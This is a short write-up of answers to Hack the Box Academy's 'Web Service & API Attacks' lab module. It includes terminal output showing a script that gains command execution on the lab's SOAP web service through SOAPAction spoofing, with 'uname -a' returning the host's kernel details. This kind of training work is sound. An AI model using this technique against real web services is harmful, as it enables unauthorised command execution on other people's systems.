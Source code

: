 # Web Service & API Attacks
* Source: [Hack the Box: Academy](https://academy.hackthebox.com/)
* Module: Web Service & API Attacks
* Tier: II
* Difficulty: Medium
* Category: Offensive
* Time estimate: 7 hours
* Date: 01-08-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Web Services Description Language (WSDL)
### Question:
![](./attachments/Pasted%20image%2020220727112356.png)

**Answer:** `Method`

---
## SOAPAction Spoofing
### Question:
![](./attachments/Pasted%20image%2020220727112416.png)

```
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 automate.py                                                         
$ uname -a
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>Linux nix01-websvc 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux\n</result></LoginResponse></soap:Body></soap:Envelope>'
$ 

```
